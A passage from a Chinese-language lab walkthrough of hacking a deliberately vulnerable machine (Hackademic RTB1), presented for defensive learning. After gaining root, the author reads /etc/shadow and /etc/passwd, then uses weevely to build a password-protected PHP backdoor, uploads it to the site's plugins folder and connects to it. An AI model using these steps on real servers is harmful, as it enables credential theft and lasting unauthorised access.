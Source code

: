 ![](32.png) 
执行完成之后我们输入id命令

```shell
id
```

我们发现我们已经是root权限了

uid=0(root) gid=0(root)

![](33.png) 
现在我们可以查看/etc/shadow文件

```shell
cat /etc/shadow
```

![](34.png)


查看/etc/passwd 文件

```shell
cat /etc/passwd
```

 ![](35.png) 
我们可以使用”john the ripper”工具破解所有用户的密码.但是我们不会这样做，我们需要在这个服务器上留下后门以方便我们在任何时候访问它.

我们用weevely制作一个php小马上传到服务器上.

1.weevely使用选项

```shell
root@bt:/pentest/backdoors/web/weevely# ./main.py –
```


![](36.png)

2.用weevely创建一个密码为koko的php后门

```shell
root@bt:/pentest/backdoors/web/weevely# ./main.py -g -o hax.php -p koko
```

![](37.png)

接下来上传到服务器之后来使用它

```shell
root@bt:/pentest/backdoors/web/weevely# ./main.py -t -u http://hack-test.com/Hackademic_RTB1/wp-content/plugins/hax.php -p koko
```

![](38.png)


测试我们的hax.php后门

![](39.png)

总结:

在这边文章中我们学到的一些技术正被黑客用来入侵你的网站和服务器，我们希望能通过这篇文章能够对你未来维护服务器和网站安全有所帮助.